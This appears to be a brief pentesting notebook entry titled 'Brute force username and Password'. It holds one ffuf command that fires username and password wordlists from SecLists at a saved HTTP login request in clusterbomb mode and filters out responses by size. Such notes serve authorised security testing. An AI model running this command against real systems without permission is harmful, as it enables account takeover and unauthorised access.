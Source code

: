 
## Brute force username and Password


```bash
ffuf -request tmp.txt -request-proto http -mode clusterbomb -w /usr/share/seclists/Passwords/pass5.txt:FUZZPASSWORD -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt:FUZZUSERNAME -fs 3256
```

Learn more here: [[Jun 19, 2024]]
